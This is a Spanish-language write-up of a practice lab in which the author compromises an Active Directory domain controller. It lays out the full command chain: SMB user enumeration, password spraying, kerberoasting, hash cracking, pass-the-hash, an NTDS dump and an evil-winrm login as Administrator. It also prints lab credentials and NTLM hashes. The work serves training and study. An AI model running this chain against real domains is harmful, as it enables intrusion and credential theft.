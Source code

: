 # DC-01
![image](https://github.com/user-attachments/assets/9005e5aa-7dd4-46e7-9d63-83443c00029b)

## Reconocimiento
Lo primero que tenemos que hacer es identificar nuestro objetivo, ver la IP del DC.
En mi caso, lo hago con la herramienta netdiscover
```
ip a
```
![image](https://github.com/user-attachments/assets/39e54115-3ae2-40fd-8d13-f576429bd22b)

```
sudo netdiscover -i eth0 -r 14.14.1.0/24
```
Una vez identificamos el host, con IP 14.14.1.28, vamos  a realizar un escaneo de puertos con la herramienta NMAP, en concreto voy a utilizar mi herramienta automatizada para escaneos de NMAP [autonmap](https://github.com/BanYio/AutoNMAP).

![image](https://github.com/user-attachments/assets/a4b4b727-8b1a-4c88-93df-817e7939adf0)

Como era de esperar, al ser un DC hay muchos puertos abiertos, de momento nos vamos a centrar en kerberos (88), rpc (135), smb (445), ldap (389) y por último, vemos que tiene habilitado el puerto 5985, winrm.

![image](https://github.com/user-attachments/assets/8707c1c7-09a5-4e3f-a220-5df923d4e4c4)

Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts
```
crackmapexec smb 14.14.1.28
```
![image](https://github.com/user-attachments/assets/34b3b5a8-1b30-43d3-b9a1-682adbfcfe49)

Tras intentar enumerar usuarios mediante LDAP, rpcclient o smb con null sessions o incluso con la herramienta kerbrute para ver usuarios válidos del dominio, no ha habido suerte, por lo que he listado las carpetas compartidas y en un primer momento no he visto nada interesante, por ello es muy importante realizar las enumeraciones con distintas herramientas.

```
smbclient -L //14.14.1.28/ -N
crackmapexec smb 14.14.1.28 -u '' -p '' –shares
crackmapexec smb 14.14.1.28 -u 'banyio' -p '' –shares
```
![image](https://github.com/user-attachments/assets/168342b4-5d0c-460a-8224-6f925b46ee22)

Como podemos ver, hay muchas carpetas compartidas, pero solo tenemos permisos de lectura para IPC.
Vamos a realizar alguna búsqueda a ver que podemos enumerar con este recurso compartido, y en [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb) encontramos que hay una herramienta de impacket, lookupsid con la cual podemos enumerar los usuarios del domino.
```
impacket-lookupsid banyio@14.14.1.28
```
![image](https://github.com/user-attachments/assets/8d84a455-96ff-47ac-abec-8bfe20a27440)
 
Como podemos observar, nos aparecen todos los usuarios, pero con un formato incómodo para poder realizar otras tareas de enumeración mas adelante, por lo que vamos a sanitizar este output.
```
impacket-lookupsid banyio@14.14.1.28 | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```
![image](https://github.com/user-attachments/assets/6045630e-9fe9-4c4a-8ea6-f7fc94345517)

## EXPLOTACION
Ahora tenemos una lista de usuarios del dominio, por lo que podemos intentar a ver si alguno de estos usuarios es vulnerable a un ataque As-Rep Roasting, o realizar un password spraying al smb con credenciales por defecto.
```
crackmapexec smb 14.14.1.28 -u users.txt -p users.txt –no-brute
```
![image](https://github.com/user-attachments/assets/e4c13793-a146-4452-a752-0396f251d852)

Tenemos unas credenciales validas. 

**ybob317:ybob317**

Vamos a comprobar carpetas compartidas con estas credenciales y ver si tenemos acceso mediante winrm.
```
crackmapexec smb 14.14.1.28 -u ybob317 -p ybob317 –shares
crackmapexec winrm 14.14.1.28 -u ybob317 -p ybob317
```
![image](https://github.com/user-attachments/assets/212cf5f7-e6fb-414f-a560-241ba014732b)

No vemos nada interesante, por lo que vamos a ayudarnos de herramientas como bloodhound o ldapdomaindump para realizar escalada de privilegios o movimientos laterales.
```
bloodhound-python -d soupedecode.local -v --zip -c All -ns 14.14.1.28 -u ybob317 -p 'ybob317'
```
![image](https://github.com/user-attachments/assets/8d6a4256-0b3c-4c85-8316-f1b509fb583d)

Vemos que nos aparece un error DNS, vamos a intentar solucionarlo. Para ello vamos a fakear un DNS server con la herramienta dnschef.
```
git clone https://github.com/iphelix/dnschef.git
cd dnschef
sudo python3 dnschef.py --fakeip 14.14.1.28
bloodhound-python -d soupedecode.local -v --zip -c All -ns 127.0.0.1 -u ybob317 -p 'ybob317' -dc dc01
```
![image](https://github.com/user-attachments/assets/686c27a1-45da-4ebc-9ebd-993d6d435cc3)

Ya tenemos el reporte de bloodhound.
 
Abrimos bloodhound, iniciamos la consola de neo4j y subimos el .zip al bloodhound.
![image](https://github.com/user-attachments/assets/6dc554a2-36be-4d75-9391-9061fd27e46f)

## ESCALADA DE PRIVILEGIOS
Una vez tenemos todos los datos subidos al bloodhound, podemos empezar a buscar posibles vectores para escalar privilegios, si listamos los usuarios kerberoastables, vemos lo siguiente;
![image](https://github.com/user-attachments/assets/1ea56f76-35aa-4985-9166-d43cd6e4e23b)

Todos esos usuarios son vulnerables a un ataque kerberoast, por lo que vamos a realizarlo con la herramienta de Impacket-GetUsersSPNs.
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317
```
![image](https://github.com/user-attachments/assets/2b46ffd4-168d-47b3-b9b6-9fdbf95534e6)

Aquí vemos los usuarios vulnerables, y para capturar el hash NLTMv2, le tenemos que pasar el parámetro -outputfile.
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317 -outputfile kerb.hash
```
![image](https://github.com/user-attachments/assets/5752899f-0098-4025-b93a-9614b8dfa72a)

Aquí vemos un error que se soluciona cambiando el ntp.
```
sudo ntpdate 14.14.1.28
```
Volvemos a ejecutar de nuevo el comando y vemos que se han capturado todos los hashes.

Vamos a crackearlos con JohnTheRipper.
```
john --wordlist=/usr/share/wordlists/rockyou.txt kerb.hash
```
![image](https://github.com/user-attachments/assets/4695b320-8bd0-45c9-936a-5b6c0b99e4fb)

Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece.
Para identificar a quien pertenece esa contraseña, utilizaremos crackmapexec.
```
crackmapexec smb 14.14.1.28 -u users.txt -p 'Password123!!'
```
![image](https://github.com/user-attachments/assets/cf934ad9-4ea3-44d1-b065-ff06d6460d73)

Tenemos nuevas credenciales;

**file_svc:Password123!!**

Con estas nuevas credenciales, vamos a volver a listar las carpetas compartidas, a ver si hay alguna novedad.
```
crackmapexec smb 14.14.1.28 -u file_svc -p 'Password123!!' –shares
```
![image](https://github.com/user-attachments/assets/2d608f9b-533c-4c71-bc36-cf7557d7dda9)
 
Como podemos ver, este usuario tiene permisos de lectura sobre la carpeta backup, vamos a ver que hay dentro.
```
smbclient //14.14.1.28/backup -U file_svc
```
![image](https://github.com/user-attachments/assets/5f3147ec-8d37-41e6-8650-7f4f5c8ed8e3)

Nos encontramos con un fichero; backup_extract.txt que parece tener muchos usuarios y hashes NTLMv1, con los que podemos realizar la técnica de pass the hash, vamos  a comprobar si hay alguna credencial válida.
```
cat backup_extract.txt | awk -F ':' '{print $1 > "svc_users.txt"; print $4 > "hashes.txt"}'
```
![image](https://github.com/user-attachments/assets/0e852a22-d090-4aa1-8656-b4de9ee6610e)

```
crackmapexec smb 14.14.1.28 -u svc_users.txt -H hashes.txt --continue-on-success --no-brute
```
![image](https://github.com/user-attachments/assets/01ca8ce5-c396-4bd7-99d0-6747c2fa3a0e)

Como podemos ver, gracias al **Pwned!**, hemos comprometido la maquina, ya que significa que tenemos privilegios!

Vamos a dumpear el NTDS para sacar las credenciales de Administrator.
```
crackmapexec smb 14.14.1.28 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 –ntds
```
![image](https://github.com/user-attachments/assets/d09bec01-c58d-4873-bd19-80ac8e0620d4)
 
Tenemos las credenciales de Administrator!
``` 
evil-winrm -i 14.14.1.28 -u 'Administrator' -H '88d40c3a9a98889f5cbb778b0db54a2f'
```
![image](https://github.com/user-attachments/assets/7ec7fcfe-25d4-4eed-b037-bfe94ad62de6)

Ahora ya podemos leer las flags de esta maquina.
![image](https://github.com/user-attachments/assets/2bfeda6e-04ca-41b3-b9a7-1c2afbb82258)


## Pwned!


